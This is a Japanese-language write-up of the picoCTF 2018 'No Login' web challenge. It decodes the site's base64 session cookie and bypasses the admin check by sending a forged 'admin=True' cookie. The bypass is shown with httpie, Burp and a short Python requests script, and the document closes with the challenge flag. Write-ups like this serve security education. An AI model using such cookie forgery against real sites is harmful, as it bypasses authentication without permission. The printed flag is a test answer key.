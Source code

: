 # No Login

## solve
```
Looks like someone started making a website but never got around to making a login, 
but I heard there was a flag if you were the admin. 
http://2018shell.picoctf.com:33889 (link)
```

## Hint
```
What is it actually looking for in the cookie?
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83586780-51849480-a588-11ea-83d7-e1072ba0361f.png)

問題に移動するとloginページが表示されます。

今回、問題分にもあるように`admin`でloginをしなければならないと考えられます。

試しに`Flag`のボタンを押してみます。

![2](https://user-images.githubusercontent.com/47602064/83586895-9f010180-a588-11ea-971f-220c3d50ccc1.png)

`I'm sorry it doesn't look like you are the admin.`

すると以上にように`admin`でないと無理そうとわかりました。

<br>

ヒントには`cookie`が関係していると思うので通信を見てみます。

```http
GET /flag HTTP/1.1
Host: 2018shell.picoctf.com:33889

```

```http
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://2018shell.picoctf.com:33889/
Vary: Cookie
Set-Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkknbSBzb3JyeSBpdCBkb2Vzbid0IGxvb2sgbGlrZSB5b3UgYXJlIHRoZSBhZG1pbi4iXX1dfQ.EbiUTw.cowsewXUDHu8buqlsHASNpRlTFM; HttpOnly; Path=/

```

requestを見る限り、`/flag`にアクセスしていることがわかります。

そして次のrequestでリダイレクトしていました。

responeを見ると`Vary: Cookie`とcookieがなっています。

これは`Vary`に指定された`Cookie`によって表示される内容を変える仕組みだそうです。

今回の`Cookie`内容は`Set-Cookie`でbase64でエンコードされてセットされています。

試しにセットされた内容をデコードしてみます。

```
$ echo eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkknbSBzb3JyeSBpdCBkb2Vzbid0IGxvb2sgbGlrZSB5b3UgYXJlIHRoZSBhZG1pbi4iXX1dfQ | base64 -d
{"_flashes":[{" t":["warning","I'm sorry it doesn't look like you are the admin."]}]}
```

これにより`I'm sorry it doesn't look like you are the admin.`が`Cookie`にセットされて次のページで表示されるようになっていました。

なのでこれを利用して`admin`でのloginができれば良さそうです。

<br>

単純には`admin`でのloginが`True`になればよいのでこれを`cookie`にセットすると以下のような感じになります。

`Cookie:admin = True`

これを`/flag`に送ってみます。

```http
$ http GET http://2018shell.picoctf.com:33889/flag "Cookie:admin = True"
HTTP/1.1 200 OK

<!DOCTYPE html>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{n0l0g0n_n0_pr0bl3m_26b0181a}</code></p>
            <!-- <p><a class="btn btn-lg btn-success" href="admin" role="button">Click here for the flag!</a> -->
            <!-- </p> -->
        </div>

```

すると`admin`でアクセスができてflagが表示されました。

<br>

デバッグや`Burp`で編集してCookieを追加して送信すると以下のように表示されます。

![3](https://user-images.githubusercontent.com/47602064/83593785-90bae180-a598-11ea-9335-074953cfc1e5.png)

<br>

Pythonで実行すると以下のプログラムで綺麗にflagを得ることが出来ます。

```python
#!/usr/bin/python

import requests
import re

jar = {'admin': 'True'}
r = requests.get('http://2018shell1.picoctf.com:33889/flag', cookies=jar)
source = r.text

print re.findall(r'(picoCTF\{.+\})', source)[0]
```

<br><br>

## FLAG: picoCTF{n0l0g0n_n0_pr0bl3m_26b0181a}
